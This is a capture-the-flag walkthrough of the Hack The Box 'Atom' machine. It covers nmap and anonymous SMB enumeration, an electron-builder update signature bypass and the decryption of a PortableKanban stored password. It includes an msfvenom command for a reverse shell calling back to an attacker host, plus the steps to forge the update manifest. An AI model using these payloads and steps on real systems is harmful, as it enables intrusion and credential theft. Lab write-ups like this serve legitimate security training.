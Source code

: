 # Enumeration.

Nmap port scanning.

``` bash
# Nmap 7.91 scan initiated Sun Jul 11 12:02:21 2021 as: nmap -p- --open -T5 -v -n -Pn -oN allPorts 10.10.10.237
Nmap scan report for 10.10.10.237
Host is up (0.14s latency).
Not shown: 65529 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
5985/tcp open  wsman
6379/tcp open  redis

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sun Jul 11 12:05:54 2021 -- 1 IP address (1 host up) scanned in 212.42 seconds
```

``` bash
# Nmap 7.91 scan initiated Sun Jul 11 12:08:52 2021 as: nmap -sC -sV -p80,135,443,445,59585,6379 -oN targeted 10.10.10.237
Nmap scan report for 10.10.10.237
Host is up (0.17s latency).

PORT      STATE    SERVICE      VERSION
80/tcp    open     http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp   open     msrpc        Microsoft Windows RPC
443/tcp   open     ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open     microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
6379/tcp  open     redis        Redis key-value store
59585/tcp filtered unknown
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h32m25s, deviation: 4h02m32s, median: 12m23s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: ATOM
|   NetBIOS computer name: ATOM\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-11T10:21:52-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-11T17:21:50
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 11 12:10:05 2021 -- 1 IP address (1 host up) scanned in 72.24 seconds
```

I notice that has a SMB client, lets enumerate with it.

``` bash
smbmap -u anonymous -p anonymous -H 10.10.10.237
[+] Guest session       IP: 10.10.10.237:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        Software_Updates                                        READ, WRITE
```

There are one readable directory, `Software_Updates`.

Lets check what it has.

``` bash
smbmap -u anonymous -p anonymous -H 10.10.10.237 -R Software_Updates                                                                                                                                     took  6s
[+] Guest session       IP: 10.10.10.237:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Software_Updates                                        READ, WRITE
        .\Software_Updates\*
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    .
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    ..
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    client1
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    client2
        dr--r--r--                0 Sun Jul 11 13:10:20 2021    client3
        fr--r--r--            35202 Fri Apr  9 06:18:08 2021    UAT_Testing_Procedures.pdf
```

Look like we got some client's directories, but without name or credentials, and a `.pdf` lets get that file and read it.

``` bash
smbmap -u anonymous -p anonymous -H 10.10.10.237 --download Software_Updates/UAT_Testing_Procedures.pdf                                                                                                      ✘ INT
[+] Starting download: Software_Updates\UAT_Testing_Procedures.pdf (35202 bytes)
[+] File output to: /home/oredreim/Documents/hacking/htb/atom/nmap/10.10.10.237-Software_Updates_UAT_Testing_Procedures.pdf
```
![[Pasted image 20210711132754.png]]

So, after reading the document, I notice that it says I can update file to the clients directories, and also says that it will test, upgrade and install the files. Now, what the hell do, cause i have no idea how can i update the files.

Well! actually I do, I can use and other tool, `smbclient`, and get access as `anonymous` user and I can put files on the `Software_Updates`. 

Then I notice that there is some crazy things, electron builder.

What in the hell is an `electron-builder`. But before start searching, lets take a look at the web site, cause there is also something interesting to get, there is a file I can download, so lets move on and do it and check what it has.

![[Pasted image 20210712100331.png]]

So now, lets unzip de `.exe` cause i cant execute that file but i can check what it has inside with `7z x heed.exe`.


And it drop us and other directory that Im gonna change the name cause i dont like that name.

![[Pasted image 20210712100512.png]]

This is what I got. And there is also and other `.zip` file so lets keep unzipping.

![[Pasted image 20210712100555.png]]

There you go, finally we got everything to check in. Now lets move into the directory `resources` and we see some file, if I check the `.yml` file I see there is and other domain `update.atom.htb`.

![[Pasted image 20210712100916.png]]
 
Lets put it in the Hosts.

Now lets to the `electron-builder`.

What the hell is that? after searching and reading a lot of innecesary documentations. I decide to search for an exploit and I understand that the `electron-builder` is vulnerable to RCE.

https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

![[Pasted image 20210711150907.png]]

Lets get the `.yml` script.

![[Pasted image 20210712102233.png]]

And lets create our executable `.exe` to update.
``` bash 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.48 LPORT=4444 -f exe -o shell.exe
```

Ok I got a `.yml` and `.exe` file to exploit the `electron-builder`. But is not that simple, we need to change something in the `.yml` cause if you read it, you understand that there is some encryption, `sha512` to update the file, lets do it to the `.exe` file so it wont give us problems.

``` bash 
 sha512sum shell.exe | awk '{print $1}' | xxd -r -p | base64 -w 0
6vGfWVFFa8/7YEesVXU3NmZ35QIhnPwp9otBh5AVUclt1sAGP/986KEGmnXT02KMO65vmlP060HcmApKgyjf4w==
```

Now put the `BASE64` on the `.yml` script and change some things too, lets change the version cause as I read before it will upgrade the files and some other things, lets try to get one version that it may not change, and change the name file to the one we made, but check that the file must have a `'` so it will execute. 

![[Pasted image 20210712103711.png]]

Then we upload the files in one of the clients directories, and wait till we get the revershell from the port we open.

![[Pasted image 20210712115401.png]]
![[Pasted image 20210712115448.png]]
![[Pasted image 20210712115535.png]]

# Privilage Scalation.
After looking all the directories and files, I check a one in the Downloads named `PortableKanban` with some file, one named `PortableKanban.cfg`.

![[Pasted image 20210712121123.png]]

This is too much information to read like that, I need to make it possible to read.

![[Pasted image 20210712121412.png]]

Much better!!! now lets find some credentials

![[Pasted image 20210712121542.png]]

I got one encrypted, I asume that it is a `BASE64` but is not that simple to decrypt this password, cause kanban do his on way, with some keys, so lets find out the keys.

I find a epxloit that use the default keys, but want to use it, Im gonna copy the keys and insert them into cyberchef, cause for me is easier.

![[Pasted image 20210712123744.png]]

![[Pasted image 20210712123900.png]]

As I said, it is `BASE64` so lets put that is from base64, and as in the exploit I take the keys, lets put the Deskeys, and there you go, you crack the password.

